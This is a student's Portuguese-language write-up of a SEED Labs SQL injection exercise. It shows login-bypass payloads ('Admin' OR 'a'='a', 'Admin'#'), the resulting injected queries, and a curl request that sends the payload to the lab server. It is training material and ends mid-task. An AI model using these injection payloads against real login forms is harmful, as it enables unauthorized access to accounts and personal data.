



# Trabalho realizado nas Semana #8 e #9

## **Seed Labs**

## Tarefa 1

```
    mysql> select * from credential where Name = "Alice";
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    | ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    |  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    1 row in set (0.01 sec)

    mysql> 
```

## Tarefa 2
### Tarefa 2.1
Colocando "Admin' OR 'a'='a" no username vai alterar a query fazendo com que a condição seja sempre verdadeira. A query será assim:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin' or 'a'='a' and Password='';
```





Uma alternativa mais simples é colocar "Admin'#" no username, o que fará com que o que vem depois do '#' seja apenas um comentário, o que faz com que a condição seja verdadeira em name = 'Admin'. A nova query será então:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin'#' and Password='';
```



### Tarefa 2.2

http://www.seed-server.com/unsafe_home.php?username=Admin%27%23&Password=

```
    curl 'http://www.seed-server.com/unsafe_home.php?username=Admin%27%23&Password=' > index.html
```

abrindo o index.html no browser, obtemos:


